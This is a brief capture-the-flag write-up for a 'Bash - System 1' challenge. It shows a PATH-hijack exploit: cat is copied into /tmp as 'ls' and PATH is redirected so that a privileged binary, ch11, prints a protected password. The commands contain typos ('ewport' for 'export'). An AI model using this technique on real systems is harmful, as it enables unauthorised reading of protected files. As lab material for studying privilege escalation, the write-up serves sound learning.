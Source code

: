 # Challenge Bash - System 1

## Todo : 

execute the compilated ch11 to Show the password

### Note :

  - alias and ewport not working in this case 

## Exploit :

mkdir -pv /tmp/exploit

cp -avr $(which cat) /tmp/exploit/ls

ewport PATH=/tmp/exploit

./ch11
